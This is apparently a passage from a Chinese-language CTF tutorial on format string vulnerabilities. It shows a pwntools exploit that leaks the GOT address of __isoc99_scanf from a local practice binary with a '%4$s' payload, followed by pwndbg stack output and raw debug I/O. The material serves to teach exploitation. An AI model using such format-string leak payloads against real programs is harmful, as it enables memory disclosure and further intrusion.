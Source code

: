 如果我们输入%2$s, 这个时候就很有趣了， 按照道理程序会将 0xf7fcf410 对应地址的当作字符串打印出来， 可是如果这个地址无效呢？
我自己尝试的结果是直接退出了，什么都没有打印出来emm


这时候如果我们指定一个合法的地址， 比如got表中某个函数的地址这就很神奇了

exp如下：

```python
from pwn import *
import time
sh = process('./leakMemory')

context.log_level = 'debug'
leakmemory = ELF('./leakMemory')

__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']

print hex(__isoc99_scanf_got)

payload = p32(__isoc99_scanf_got) + '%4$s'

print payload

payload1 = '%4$s' #这两个payload是自己测试的
payload2 = 'AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p'
gdb.attach(sh)
#time.sleep(1)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
#print sh.recvuntil('%4$s\n')
#print '\n'

print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got

sh.interactive()
```

我们运行这个exp
在pwndbg中下断点

运行到第二个printf的时候
```c
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ esp  0xffa3bdfc —▸ 0x80484f9 (main+115) ◂— add    esp, 0x10
01:0004│      0xffa3be00 —▸ 0xffa3be10 —▸ 0x804a014 (_GLOBAL_OFFSET_TABLE_+20) —▸ 0xf7df2bb0 (__isoc99_scanf) ◂— push   ebp
... ↓
03:000c│      0xffa3be08 —▸ 0xf7f85410 —▸ 0x8048278 ◂— inc    edi /* 'GLIBC_2.0' */
04:0010│      0xffa3be0c —▸ 0x804849d (main+23) ◂— add    ebx, 0x1b63
05:0014│ eax  0xffa3be10 —▸ 0x804a014 (_GLOBAL_OFFSET_TABLE_+20) —▸ 0xf7df2bb0 (__isoc99_scanf) ◂— push   ebp
06:0018│      0xffa3be14 ◂— '%4$s'
07:001c│      0xffa3be18 —▸ 0xf7fb3900 (catch_hook) ◂— 0x0
```
另一边
```c
[+] Waiting for debugger: Done
[DEBUG] Sent 0x9 bytes:
    00000000  14 a0 04 08  25 34 24 73  0a                        │····│%4$s│·│
    00000009
[DEBUG] Received 0x24 bytes:
    00000000  30 30 30 30  30 30 30 31  2e 32 32 32  32 32 32 32  │0000│0001│.222│2222│
    00000010  32 2e 66 66  66 66 66 66  66 66 2e 14  a0 04 08 25  │2.ff│ffff│ff.·│···%│
    00000020  34 24 73 0a                                         │4$s·││
    00000024
```
